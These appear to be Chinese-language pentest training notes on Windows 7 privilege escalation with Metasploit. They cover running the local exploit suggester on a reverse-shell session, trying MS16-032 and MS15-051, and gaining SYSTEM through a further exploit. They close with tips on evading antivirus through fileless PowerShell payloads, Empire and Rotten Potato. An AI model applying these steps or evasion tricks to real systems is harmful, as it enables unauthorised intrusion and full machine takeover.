

search sug
use post/multi/recon/local_exploit_suggester
options
set session 1  --设置需要进行漏洞对比的会话
前提是windows7已经拿到shell，将1.exe 上传到windows7运行，反弹建立会话
search suggester 使用检索目标系统有哪些漏洞补丁没有打上的  将没有打补丁的漏洞与可以利用的漏洞对比(也可以使用自动对比)
search m16-032/ms15-051 –都没有成功
search 8120 成功
set session 设置之前的会话id
show targetsset target 设置攻击的目标系统版本
use Windows 7 x64
Run
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
实战中需要考虑环境、(waf、杀软会拦截上传  --需要bypass av(实际就是免杀绕过)实际用得比较多的 免杀payload、(上传到)powershell进行无文件攻击,可以绕过一些360杀软、empire ps1也可以免杀绕过一些)支持 、
烂土豆(m16-075)需要.net环境